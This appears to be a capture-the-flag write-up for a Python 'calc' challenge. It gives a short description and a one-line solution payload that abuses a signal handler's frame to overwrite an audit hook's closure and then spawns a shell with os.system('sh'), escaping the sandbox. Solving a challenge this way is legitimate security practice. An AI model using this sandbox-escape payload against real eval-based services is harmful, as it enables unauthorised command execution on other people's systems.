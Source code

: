 # calc
**Category**: Misc
**Difficulty**: Medium
**Author**: maple3142

# Description
A simple calculator to help you with your math homework.

# Distributions
- `Dockerfile`
- `server.py`

# Solution

Get frames from signal handler and overwrite the `exit` function of `hook` by modifying its closure.

```python
0,(s:=__import__('sys').modules['_signal'],s.signal(2,lambda a,b:b.f_back.f_locals['hook'].__closure__[0].__setattr__('cell_contents',lambda x:0)),s.raise_signal(2),__import__('os').system('sh'))
```
